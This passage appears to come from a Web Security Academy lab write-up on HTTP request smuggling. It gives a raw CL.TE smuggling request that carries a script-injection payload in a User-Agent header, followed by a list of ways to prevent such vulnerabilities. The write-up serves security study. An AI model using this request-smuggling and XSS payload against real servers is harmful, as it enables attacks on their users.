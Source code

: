 #### Exploit XSS

```html
POST / HTTP/1.1
Host: 0a0d00b303c593ec80de623100a1002d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=8 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```



## How To Prevent HTTP Request Smuggling Vulnerabilities?
* Interpret HTTP headers consistently on front-end and back-end servers
* Disable vulnerable optimizations
* Avoid use of load balancers, CDNs, or reverse proxies if not required
* Use HTTP/2
* Disable connection reuse on the back-end server
* Configure the front-end server to normalize ambiguous requests
* Do not expose logged HTTP traffic
* Use a WAF

